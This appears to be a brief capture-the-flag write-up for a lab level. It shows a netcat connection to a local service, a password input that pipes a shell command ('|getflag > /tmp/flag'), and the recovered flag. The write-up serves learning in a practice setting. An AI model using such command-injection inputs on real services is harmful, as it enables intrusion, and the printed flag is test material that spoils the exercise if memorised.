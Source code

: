 # level11

To connect: `nc 127.0.0.1 5151`

Password is `| printf 'NotSoEasy'` (only gets you `Gz you dumb*`).

To get the flag, type as password: `|getflag > /tmp/flag` then `cat /tmp/flag` gets you `fa6v5ateaw21peobuub8ipe6s`
